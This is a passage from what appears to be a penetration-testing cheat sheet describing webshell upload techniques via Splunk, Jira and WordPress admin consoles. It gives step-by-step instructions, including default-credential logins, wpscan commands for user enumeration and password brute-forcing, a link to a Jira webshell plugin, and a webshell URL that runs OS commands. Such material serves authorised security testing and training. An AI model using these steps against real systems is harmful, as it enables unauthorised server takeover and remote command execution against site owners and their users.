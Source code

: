 ```
➤ Step 2. Log into the administrator portal of a Splunk instance (e.g. admin access is uncredentialed or default creds 'admin:changeme' have not been changed)
	   - http://IP-splunk:8000/ or  https://IP-splunk:8000/ 

➤ Step 3. To deploy the Webshell you have to:
	   - browse to "Manage Apps" and then click on "Install app from file", 
	   - click on "Choose File", select the "webShell.tar.gz" file and click on "Upload"
	   - click on "Restart Splunk"
	   - browse the new app (your Webshell)
```

#### Technique 6. Webshell upload using a JIRA Web administration console
```
➤ Step 1. Download a Webshell customized for Jira
	   - https://github.com/dubfr33/atlassian-webshell-plugin

➤ Step 2. Log into a Jira instance as an administrator (e.g. default admin creds 'admin:admin' have not been changed)
	   - http://IP-or-Url/login.jsp or https://IP-or-Url/login.jsp 

➤ Step 3. To deploy the Webshell you have to:
	   - browse the upload page "https://IP-or-Url/plugins/servlet/upm"
	   - then upload the Webshell plugin "atlassian-webshell-plugin\atlplug.jar"
	   - finally access the Webshell to execute system command "https://IP-or-Url/plugins/servlet/com.jsos.shell/ShellServlet"
```
#### Technique 7. Webshell upload using a WORDPRESS CMS Website admin console
##### <i/>If you have admin privileges over a CMS such as WordPress, Kentico, DotNetNuke, Drupal, Joomla [...] then you can upload a webshell and execute OS commands.</i>
``` 
➤ Step 1. Enumerate WordPress users or Guess the Wordpress admin's login  
           - root@kali:~/# wpscan --url http://x.x.x.x.x --enumerate p,u,t,tt)
  
➤ Step 2. Perform a bruteforce or dictionnary password attack 
           - root@kali:~/# wpscan --url http://x.x.x.x.x --wp-content-dir /wp-login.php --wordlist /root/Desktop/<path>/wordlist.dic --username admin
  
➤ Step 3. Log into the WorPress admin console 
           URL examples:
           - http://x.x.x.x/wp-login.php
           - http://x.x.x.x/wp-admin
           - http://x.x.x.x/admin
           - http://x.x.x.x/login
  
➤ Step 4. Upload of a Webshell 
          - Method 1 - Add a PHP webshell by editing a theme php page and adding the code of a PHP webshell (e.g. 404 error page)
                       Go to 'Apparances' and then 'Editor' to edit a PHP page with a webshell or a reverseshell

          - Method 2 - Upload of a PHP webshell by using the WordPress plugin upload page
	               Examples:
	               + Go to 'https://website/wordpress-blog/wp-admin/plugin-install.php?tab=upload'
	               + Then upload a PHP webshell (and not a zip file) 
	               + Finally browse the webshell and execute OS commands
	                 > Https://website/wordpress-blog/wp-content/uploads/webshell.php?cmd=whoami
```
